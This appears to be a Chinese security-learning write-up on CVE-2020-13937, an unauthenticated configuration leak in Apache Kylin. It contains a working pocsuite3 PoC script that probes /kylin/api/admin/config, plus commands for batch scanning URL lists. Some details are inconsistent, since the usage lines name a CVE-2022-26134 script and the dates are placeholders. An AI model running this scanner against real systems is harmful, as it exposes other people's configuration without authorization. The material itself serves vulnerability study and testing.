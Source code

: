  

# CVE-2020-13937

##   1.漏洞描述：

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息。

## 2复现

有漏洞对比

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919511193-cb33c851-cb6a-4bb4-ae73-02a2a35f84b7.png)

无漏洞对比

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919564425-e0262b83-8393-49c6-986e-202488741f8b.png)

编写poc

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919680962-9e85a9e7-1630-4ea1-a269-579274de5568.png)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29412931/1665919738855-670f720e-eb08-4e72-8cb6-bc9eccc17303.png)

验证正确单个url ：pocsuite -r CVE-2022-26134.py -u url

![image-20221018222425092](https://i0.hdslb.com/bfs/album/eed68e4b5964f0a317e667366ea60b8039b2e4d7.png)

验证错误单个url：pocsuite -r CVE-2022-26134.py -u url

![image-20221018222400312](https://i0.hdslb.com/bfs/album/090b6c808904f9d1cf1a44f50e5639f44489b5cf.png)

批量扫描：pocsuite -r CVE-2022-26134.py -u url.txt

![image-20221018222334282](https://i0.hdslb.com/bfs/album/307d8b0090fc875109e8e7c9e54577d4c0cd0d19.png)

##  3.脚本代码 

```python
from collections import OrderedDict
from pocsuite3.api import (
    Output,
    POCBase,
    POC_CATEGORY,
    register_poc,
    requests,
    VUL_TYPE,
    get_listener_ip,
    get_listener_port,
)
from pocsuite3.lib.core.interpreter_option import (
    OptString,
    OptDict,
    OptIP,
    OptPort,
    OptBool,
    OptInteger,
    OptFloat,
    OptItems,
)
from pocsuite3.modules.listener import REVERSE_PAYLOAD

# 以上就是各种导入模块而已 , 有的用了 , 有的灰色的就是没有使用模块中的内容

class DemoPOC(POCBase):
    vulID = "1571"  # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = "1"  # 默认为1
    author = "kailing0220"  # PoC作者的大名
    vulDate = "2014-10-16"  # 漏洞公开的时间,不知道就写今天
    createDate = "2014-10-16"  # 编写 PoC 的日期
    updateDate = "2014-10-16"  # PoC 更新的时间,默认和编写时间一样
    references = ["http://wiki.peiqi.tech/wiki/webserver/Apache/Apache%20Kylin%20config%20%E6%9C%AA%E6%8E%88%E6%9D%83%E9%85%8D%E7%BD%AE%E6%B3%84%E9%9C%B2%20CVE-2020-13937.html"]  # 漏洞地址来源,0day不用写
    name = "CVE-2020-13937 PoC"  # PoC 名称
    appPowerLink = "http://wiki.peiqi.tech/wiki/webserver/Apache/Apache%20Kylin%20config%20%E6%9C%AA%E6%8E%88%E6%9D%83%E9%85%8D%E7%BD%AE%E6%B3%84%E9%9C%B2%20CVE-2020-13937.html"  # 漏洞厂商主页地址
    appName = "CVE-2020-13937"  # 漏洞应用名称
    appVersion = "all"  # 漏洞影响版本
    vulType = VUL_TYPE.UNAUTHORIZED_ACCESS  # 漏洞类型,类型参考见 漏洞类型规范表
    category = POC_CATEGORY.EXPLOITS.WEBAPP
    samples = []  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    desc = """
            Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息。
        """  # 漏洞简要描述
    pocDesc = """
            poc的用法描述
        """  # POC用法描述
    # 各种变量的定义 , 关于poc的描述

    def _check(self):
        # 漏洞验证代码
        headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}

        result = []
        # 一个异常处理 , 生怕站点关闭了 , 请求不到 , 代码报错不能运行
        try:
            url = self.url.strip() + "/kylin/api/admin/config"  # self.url 就是你指定的-u 参数的值
            res = requests.get(url=url, headers=headers, verify=False, allow_redirects=False, timeout=9)
            # 判断是否存在漏洞
            if res.status_code == 200 and 'config' in res.text:
                result.append(url)
        except Exception as e:
            print(e)
        # 跟 try ... except是一对的 , 最终一定会执行里面的代码 , 不管你是否报错
        finally:
            return result

    def _verify(self):
        # 验证模式 , 调用检查代码 ,
        result = {}
        res = self._check()  # res就是返回的结果列表
        if res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['Info'] = self.name
            result['VerifyInfo']['vul_url'] = self.url
            result['VerifyInfo']['vul_detail'] = self.desc
        return self.parse_verify(result)

    def _attack(self):
        # 攻击模式 , 就是在调用验证模式
        return self._verify()

    def parse_verify(self, result):
        # 解析认证 , 输出
        output = Output(self)
        # 根据result的bool值判断是否有漏洞
        if result:
            output.success(result)
        else:
            output.fail('Target is not vulnerable')
        return output


def other_fuc():
    pass


def other_utils_func():
    pass


# 注册 DemoPOC 类
register_poc(DemoPOC)
```

